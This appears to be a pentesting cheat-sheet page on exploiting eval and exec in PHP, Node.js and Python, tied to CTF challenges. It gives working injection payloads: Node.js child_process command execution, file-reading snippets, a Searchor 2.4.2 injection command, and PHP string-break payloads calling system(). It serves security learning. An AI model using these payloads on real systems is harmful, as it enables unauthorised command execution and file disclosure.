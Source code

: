 # Exploiting 'eval' Function

<div class="row row-cols-lg-2"><div>

Almost every language that we encounter during pentesting has an `eval` function that takes a string and execute the code inside.

Such function should be sparingly. Do not pass user input to them.

* PHP Eval Function

```php!
<?php
$payload = "echo 'Hello, World!';";
eval($payload);
```
</div><div>

* JavaScript/Node.js Eval Function

```js!
payload = 'console.log("Hello, World!")'
eval(payload)
```

* Python Eval <small>(or Exec)</small> Function

```js!
payload = "print('Hello, World!')"
eval(payload)
exec(payload)
```
</div></div>

<hr class="sep-both">

## Node.js 'eval' function

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

<div class="row row-cols-lg-2"><div>

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>5)()`
* Normal input fully wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```
</div><div>

It's not always possible to return a string, but if errors are returned, you may use them instead of the usual vector.

```js!
(()=>{throw new Error(require("child_process").execSync("whoami").toString())})()
```

Additional payloads:

```js!
res.end(require('fs').readdirSync('.').toString())
res.end(require('fs').readFileSync('file').toString())
```
</div></div>

<hr class="sep-both">

## Python 'eval' function

<div class="row row-cols-lg-2"><div>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.
</div><div>
</div></div>

<hr class="sep-both">

## PHP 'eval' function

[![php_eval](../../../../_badges/rootme/web_server/php_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)
[![php_eval_advanced_filters_bypass](../../../../_badges/rootme/web_server/php_eval_advanced_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval-Advanced-filters-bypass)

<div class="row row-cols-lg-2"><div>

You can inject a function call such as `phpinfo()` while using comments such as `;//` by remove appended code. If the payload is prepended by a quote, then add a matching quote.

```php!
<?php
$x = '';
eval('$x = "' . $payload . '";');
echo $x;
```

A few possible payloads:

```php!
$payload = '" . phpinfo() . "';
$payload = '" . phpinfo() . ";//';
$payload = '" . system("whoami") . ";//';
```
</div><div>

For payloads and filter bypass, refer to my [PHP Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php).
</div></div>